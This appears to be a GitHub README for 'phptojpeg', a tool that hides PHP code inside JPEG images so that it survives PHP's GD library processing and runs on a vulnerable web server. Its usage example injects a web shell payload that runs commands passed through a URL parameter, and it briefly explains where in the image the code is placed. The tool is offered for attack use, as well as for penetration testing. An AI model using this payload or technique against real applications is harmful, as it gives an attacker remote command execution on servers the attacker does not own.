

# phptojpeg
Injects php payloads into jpeg images. 

# Use Case
You have a web application that runs a jpeg image through PHP's GD graphics library.

# Description
This script injects PHP code into a specified jpeg image. The web application will execute the payload if it interprets the image. Make sure your input jpeg is uncompressed!

# Usage
`phptojpeg [JPEG] [PAYLOAD] [OUTPUT_JPEG]`

e.g. `phptojpeg cat.jpeg '<?php system($_GET["cmd"]);?>' infected_cat.jpeg`

# How it works
PHP code is injected in the null/garbage (brown) space after the scan header:

The new infected jpeg is run through PHP's gd-library. PHP interprets the payload injected in the jpeg and executes it.
